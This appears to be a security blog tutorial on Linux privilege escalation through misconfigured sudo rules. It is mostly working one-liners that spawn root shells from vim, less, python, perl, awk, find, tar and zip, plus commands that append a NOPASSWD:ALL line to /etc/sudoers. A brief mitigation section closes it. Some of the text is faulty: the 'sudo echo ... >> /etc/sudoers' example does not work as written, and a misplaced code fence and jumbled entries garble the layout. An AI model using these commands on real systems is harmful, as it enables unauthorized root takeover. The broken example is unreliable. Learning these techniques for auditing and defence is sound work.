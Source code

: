 ```yaml
---
title: Abusing Sudo Binaries for Privilege Escalation
published: 2025-04-19
updated:  2025-04-19
description: 'Exploiting Linux sudo misconfigurations to escalate privileges from low-level user to root access'
image: ''
tags: [Linux PrivEsc]
category: 'Privilege-Escalation'
draft: false 
lang: ''
---
```


# Table of Contents
- [Abusing Sudo Binaries](#abusing-sudo-binaries)
- [Detailed Workflow](#detailed-workflow)
  - [1. Enumerating Sudo Permissions](#1-enumerating-sudo-permissions)
  - [2. Exploiting the Allowed Binaries](#2-exploiting-the-allowed-binaries)
- [Examples of Exploitable Binaries](#examples-of-exploitable-binaries)
  - [Interactive Shells](#interactive-shells)
  - [Text Editors](#text-editors)
  - [Scripting Languages](#scripting-languages)
  - [System Utilities](#system-utilities)
  - [Exploiting File Access](#exploiting-file-access)
- [Using GTFOBins for Exploitation](#using-gtfobins-for-exploitation)
- [Real-World Scenarios](#real-world-scenarios)
- [Mitigation Strategies](#mitigation-strategies)
  - [Limit Sudo Permissions](#limit-sudo-permissions)
  - [Use NOEXEC](#use-noexec)
  - [Audit Sudo Configurations](#audit-sudo-configurations)
  - [Enforce Principle of Least Privilege](#enforce-principle-of-least-privilege)
  - [Monitor Sudo Usage](#monitor-sudo-usage)
- [Conclusion](#conclusion)

# **ABUSING SUDO BINARIES**

**Abusing Sudo Binaries** is a well-known privilege escalation technique in Linux systems. It exploits misconfigurations in the `sudo` command, allowing a user with limited privileges to execute specific binaries as a higher-privileged user, typically `root`. If such binaries are improperly restricted, they can be leveraged to gain unauthorized access or escalate privileges.
This technique is often used in **post-exploitation scenarios** where an attacker, with limited access to a system, attempts to escalate privileges to gain full control.

![Abusing Sudo Binaries - visual selection.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3c4ca823-51d1-47e2-845f-87c9b753cd1e/54c4c0ec-7491-484d-82e0-81b6df0dc727/Abusing_Sudo_Binaries_-_visual_selection.png)

### **`Detailed Workflow`**

![Abusing Sudo Binaries - visual selection(1).png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3c4ca823-51d1-47e2-845f-87c9b753cd1e/58363e38-405f-478a-b190-719434805a27/Abusing_Sudo_Binaries_-_visual_selection(1).png)

### **1. Enumerating Sudo Permissions**

The first step is to determine which binaries the user can execute with `sudo`. Use the following command:

```bash
sudo -l
```

Example Output:

```bash
User amr may run the following commands on target:
(ALL) NOPASSWD: /usr/bin/vim
(ALL) NOPASSWD: /usr/bin/python3
(ALL) NOPASSWD: /usr/bin/awk
```

Key Points:

- `NOPASSWD`: No password is required to execute the command.
- `(ALL)`: The command can be run as any user, including `root`.

### **2. Exploiting the Allowed Binaries**

Certain binaries allow you to execute commands, spawn a shell, or modify system files. Here are some examples:

### **`*Examples of Exploitable Binaries*`**

### **Interactive Shells**

Some binaries allow you to directly spawn a shell.

- **bash**:

```bash
sudo bash
```

**sh**:

**Text Editors**

```bash
sudo sh
```

Many text editors have built-in commands to execute shell commands.

- **vim**:

```bash
sudo vim -c ':!bash'
```

**nano**:
In `nano`, press `Ctrl+R` followed by `Ctrl+X` to execute commands:

```bash
sudo nano
Then type: !/bin/bash

```

**less**:

```bash
sudo less /etc/hosts
Press ! and type: bash
```

### **Scripting Languages**

Scripting languages like Python, Perl, and Ruby can execute system commands.

- **Python**:

```bash
sudo python -c 'import os; os.system("/bin/bash")'
```

**Perl**:

```bash
sudo perl -e 'exec "/bin/bash";'
```

**Ruby**:

```bash
sudo ruby -e 'exec "/bin/bash";'
```

### **System Utilities**

Some utilities allow command execution or file manipulation.

- **awk**:

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

**find**:

```bash
sudo find / -exec /bin/bash \;
```

**tar**:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

**zip**:

```bash
sudo zip exploit.zip /tmp -T --unzip-command="sh -c /bin/bash"
```

### **Exploiting File Access**

If a binary allows editing system-critical files, it can be used to escalate privileges.

- **echo**:
    
    ```bash
    sudo echo "amr ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
    
    ```
    

tee : 

```bash
echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

### **`Using GTFOBins for Exploitation`**

The GTFOBins database is an excellent resource to identify exploitable binaries. It provides ready-to-use commands for privilege escalation based on the binary's functionality.

Steps:

1. Visit the GTFOBins website.
2. Search for the binary listed in `sudo -l`.
3. Follow the provided exploitation commands.

### **`Real-World Scenarios`**

```bash
### **Scenario 1: Exploiting `vim`**

- A user has `sudo` permissions for `/usr/bin/vim`: 
 sudo vim -c ':!bash'
 
     This spawns a root shell.

Scenario 2: Exploiting find

    A user can run find with sudo:

    sudo find / -exec /bin/bash \;

    This command uses find to execute a root shell.

Scenario 3: Editing Sensitive Files

    If sudo tee is allowed:

    echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers

    This grants the user full sudo privileges.

Mitigation Strategies

    Limit Sudo Permissions:
        Avoid using ALL or NOPASSWD for binaries unless absolutely necessary.
        Only allow specific, non-exploitable commands.

    Use NOEXEC:
        Prevent certain binaries from spawning subshells by enabling NOEXEC in the sudoers configuration:

        Defaults!/usr/bin/vim noexec

    Audit Sudo Configurations:
        Regularly review the /etc/sudoers file and related configurations to identify and remove unnecessary permissions.

    Enforce Principle of Least Privilege:
        Grant users the minimum privileges required to perform their tasks.

    Monitor Sudo Usage:
        Use logging and monitoring tools to track sudo commands executed by users.

Conclusion

Abusing sudo binaries demonstrates the importance of secure configuration management and strict privilege control. By understanding how these techniques work and implementing proper mitigation strategies, system administrators can significantly reduce the risk of privilege escalation attacks.

```